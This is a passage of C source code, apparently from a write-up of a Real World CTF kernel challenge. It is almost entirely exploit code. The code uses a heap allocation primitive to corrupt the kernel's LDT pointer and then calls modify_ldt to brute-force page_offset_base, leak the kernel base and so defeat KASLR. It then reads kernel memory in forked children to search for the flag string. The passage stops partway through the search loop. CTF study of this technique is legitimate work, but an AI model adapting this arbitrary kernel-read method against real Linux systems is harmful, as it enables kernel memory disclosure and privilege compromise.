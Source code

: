 ```c
    while(1) {
        ldt_buf[0] = page_offset_base;
        ldt_buf[1] = 0x8000 / 8;
        del(0);
        alloc(0, 16, ldt_buf);
        retval = syscall(SYS_modify_ldt, 0, &temp, 8);
        if (retval > 0) {
            printf("[-] read data: 0x%lx\n", temp);
            break;
        }
        else if (retval == 0) {
            err_exit("no mm->context.ldt!");
        }
        page_offset_base += 0x1000000;
    }
    printf("[+] Found page_offset_base: 0x%lx\n", page_offset_base);

    /* leak kernel base from direct mappinig area by modify_ldt() */
    ldt_buf[0] = page_offset_base + 0x9d000;
    ldt_buf[1] = 0x8000 / 8;
    del(0);
    alloc(0, 16, ldt_buf);
    syscall(SYS_modify_ldt, 0, &secondary_startup_64, 8);
    kernel_offset = secondary_startup_64 - 0xffffffff81000060;
    kernel_base += kernel_offset;
    printf("[*] Get  secondary_startup_64: 0x%lx\n", secondary_startup_64);
    printf("[+] kernel_base: 0x%lx\n", kernel_base);
    printf("[+] kernel_offset: 0x%lx\n", kernel_offset);

    /* search for flag in kernel space */
    search_addr = page_offset_base;
    pipe(pipe_fd);
    buf = (char*) mmap(NULL, 0x8000, 
                        PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 
                        0, 0);
    while(1) {
        ldt_buf[0] = search_addr;
        ldt_buf[1] = 0x8000 / 8;
        del(0);
        alloc(0, 16, ldt_buf);
        int ret = fork();
        if (!ret) { // child
            char *result_addr;

            syscall(SYS_modify_ldt, 0, buf, 0x8000);
            result_addr = memmem(buf, 0x8000, "rwctf{", 6);
            if (result_addr) {
                for (int i = 0; i < 0x100; i++) {
                    if (result_addr[i] == '}') {
                        flag_addr = search_addr + (uint64_t)(result_addr - buf);
                        printf("[+] Found flag at addr: 0x%lx\n", flag_addr);
                    }
                }
            }
            write(pipe_fd[1], &flag_addr, 8);
            exit(0);
        }
        wait(NULL);
        read(pipe_fd[0], &flag_addr, 8);
        if (flag_addr != -1) {
            break;
        }
        search_addr += 0x8000;
```